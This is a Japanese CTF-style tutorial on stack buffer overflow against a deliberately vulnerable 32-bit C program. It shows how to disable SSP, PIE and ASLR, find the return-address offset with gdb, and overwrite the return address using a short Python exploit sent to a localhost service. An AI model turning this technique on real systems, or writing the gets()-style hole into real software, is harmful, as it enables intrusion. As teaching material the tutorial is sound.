 # PWNオーバーフロー入門: 関数の戻り番地を書き換える(SSP、ASLR、PIE無効で32bitELF)

## PWN対象のコード

```c:overflow02.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag()
{
  puts("flag is HANDAI_CTF");
  fflush(stdout);
//  sleep(1);
}

void saru()
{
  char buf[16];

  gets(buf);
}

int main(){
  saru();

  return 0;
}
```

## PWN対象のコードをコンパイル

```bash-statement
saru@lucifen:~/pwn002$ gcc -m32 -no-pie -fno-stack-protector overflow02.c -o overflow02
overflow02.c: In function ‘saru’:
overflow02.c:16:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/tmp/ccNHFUW1.o: In function `saru':
overflow02.c:(.text+0x59): warning: the `gets' function is dangerous and should not be used.
saru@lucifen:~/pwn002$
```
-m32を付けて32bitでコンパイル。

コンパイルできない場合は64bit環境で32bitのELFをコンパイルできない環境にある可能性があるのでgcc-multilibをインストール。

```bash-statement
$ sudo apt-get install gcc-multilib
```
-no-pieでPIEを無効化。

-fno-stack-protectorでSSPを無効化。

さらに

```bash-statement
$ sudo sysctl -w kernel.randomize_va_space=0
```

でASLRを無効化。
再起動の必要は無い。

## リターンアドレスを調べる

gdbで簡単に調べられる。

```bash-statement
saru@lucifen:~/pwn002$ gdb ./overflow02                                             GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./overflow02...(no debugging symbols found)...done.
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x80484a6 <flag>
gdb-peda$ q
saru@lucifen:~/pwn002$ 
```

つまり0x080484a6。

## 書き換えるリターンアドレスの場所を調べる

startした後niでずっと進めてgetsで読み込みになった後「ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefg」を入力してenter。

```bash-statement
[----------------------------------registers-----------------------------------]
EAX: 0xffffd4c0 ("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefg")
EBX: 0x58575655 ('UVWX')
ECX: 0xf7fc25c0 --> 0xfbad2288
EDX: 0xf7fc389c --> 0x0
ESI: 0xf7fc2000 --> 0x1d4d6c
EDI: 0x0
EBP: 0x62615a59 ('YZab')
ESP: 0xffffd4e0 --> 0xf7fe0067 (and    al,0x10)
EIP: 0x66656463 ('cdef')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x66656463
[------------------------------------stack-------------------------------------]
0000| 0xffffd4e0 --> 0xf7fe0067 (and    al,0x10)
0004| 0xffffd4e4 --> 0xffffd500 --> 0x1
0008| 0xffffd4e8 --> 0x0
0012| 0xffffd4ec --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
0016| 0xffffd4f0 --> 0xf7fc2000 --> 0x1d4d6c
0020| 0xffffd4f4 --> 0xf7fc2000 --> 0x1d4d6c
0024| 0xffffd4f8 --> 0x0
0028| 0xffffd4fc --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x66656463 in ?? ()
gdb-peda$
```

書き換えに成功してリターンアドレスが0x66656463になったことで落ちている。
つまり文字列で言うと「cdef」に書き換えられている。
つまり29～32文字目で書き換えられる。

## exploitなコード

```python:exploit02.py
import socket
import time



def main():
    buf = b'A' * 28 
    buf += b'\xa6\x84\x04\x08'
    buf += b'\n'
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("localhost", 28080))
    time.sleep(1)
    print(buf)
    sock.sendall(buf)
    s = sock.recv(100)
    print(s.decode(errors='replace'))



if __name__ == "__main__":
    main()
```

28文字Aを送った後に0xa6840408を送り付ける。

## 実行結果

```bash-statement
saru@lucifen:~/pwn002$ python exploit02.py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x84\x04\x08\n'
flag is HANDAI_CTF

saru@lucifen:~/pwn002$
```
というわけで成功！
